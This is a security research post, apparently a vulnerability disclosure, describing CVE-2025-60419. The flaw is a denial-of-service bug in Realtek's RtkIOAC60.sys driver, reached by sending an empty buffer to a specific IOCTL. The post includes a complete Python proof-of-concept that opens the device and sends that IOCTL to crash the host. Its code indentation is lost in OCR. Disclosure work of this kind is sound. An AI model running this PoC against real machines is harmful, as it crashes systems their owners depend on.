 ```yaml
---
layout: post
title: "CVE-2025-60419: Driver-induced Denial of Service via IOCTL handling"
date: 2025-10-24
categories: Research, VulnerabilityHunting
---
```

**CVE-2025-60419: Driver-induced Denial of Service via IOCTL handling**

**Introduction:** RtkIOAC60.sys is a NDIS Usermode I/O Driver by Realtek
Semiconductor Corp. It also contains a DoS vulnerability that can be
caused by supplying an empty IRP Buffer for an IOCTL call.

**Specific Details:** Looking at Ghidra's pseudo-code for the driver, we
can identify the dispatch table and then the IRP_DEVICE_CONTROL function
where we can identify individual IOCTL codes and the corresponding
functions that are called.

<img src="/assets/images/RTKVuln/media/image2.png" alt="RTKVuln"
style="width:6.5in;height:1.81944in" />

This specific IOCTL code tries to set an NDIS Event through IVar2 which
comes from param_2 + 0x18 offset which is the user controllable IRP
buffer.

Sending the buffer leads to a crash.

**Commands To Execute:  **
<img src="/assets/images/RTKVuln/media/image3.png" alt="RTKVuln"
style="width:6.5in;height:1.84722in" />

**PoC Code (In Python):**

import win32file

import win32con

import traceback

import datetime

DEVICE_NAME = r"\\.\RTKIOAC60"

ioctl_map = {

0x12C8C0: "IOCTL_NDISPROT_SET_EVENT",

}

LOG_FILE = "ioctl_test_log.txt"

def log(msg):

timestamp = datetime.datetime.now().isoformat()

with open(LOG_FILE, "a") as f:

f.write(f"\[{timestamp}\] {msg}\n")

print(msg)

def test_known_ioctls():

try:

handle = win32file.CreateFile(

DEVICE_NAME,

win32con.GENERIC_READ \| win32con.GENERIC_WRITE,

0,

None,

win32con.OPEN_EXISTING,

0,

None

)

log(f"Handle to {DEVICE_NAME} opened.")

except Exception as e:

log(f"Failed to open device: {e}")

log(traceback.format_exc())

return

for code, name in ioctl_map.items():

try:

win32file.DeviceIoControl(handle, code, None, 0, None)

log(f"{name} (0x{code:08X}) succeeded.")

except Exception as e:

log(f"{name} (0x{code:08X}) failed: {e}")

log(traceback.format_exc())

try:

handle.close()

log("Handle closed successfully.")

except Exception as e:

log(f"Failed to close handle: {e}")

log(traceback.format_exc())

log("IOCTL testing complete.")

if \_\_name\_\_ == "\_\_main\_\_":

test_known_ioctls()

**Dump File:**

<img src="/assets/images/RTKVuln/media/image4.png" alt="RTKVuln"
style="width:2.56771in;height:1.51768in" />

<img src="/assets/images/RTKVuln/media/image1.png" alt="RTKVuln"
style="width:4.91146in;height:2.37074in" />
